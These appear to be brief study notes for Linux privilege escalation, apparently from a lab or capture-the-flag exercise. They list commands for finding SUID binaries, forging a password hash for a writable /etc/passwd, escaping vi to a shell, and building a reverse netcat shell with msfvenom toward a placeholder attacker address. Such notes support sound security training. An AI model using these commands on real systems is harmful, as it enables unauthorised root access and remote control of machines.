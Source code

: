 + Starting a python server to serve files:
	`python -m SimpleHTTPServer 8000`
+ Looking for SUID binaries:
	`find / -perm -u=s -type f 2>/dev/null`
+ Creating a Linux complaint password hash:
	`openssl passwd -1 -salt [salt] [password]`
+ Using GTFOBins:
	https://gtfobins.github.io/
+ Escaping vi to shell:
	`:!sh`
+ Creating reverse nc payload using msfvenom:
	`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`

Methodologies:
+ Abusing SUID/GUID Files
+ Exploiting writable /etc/passwd
+ Escaping vi editor
+ Exploiting crontab
+ Exploiting PATH variable
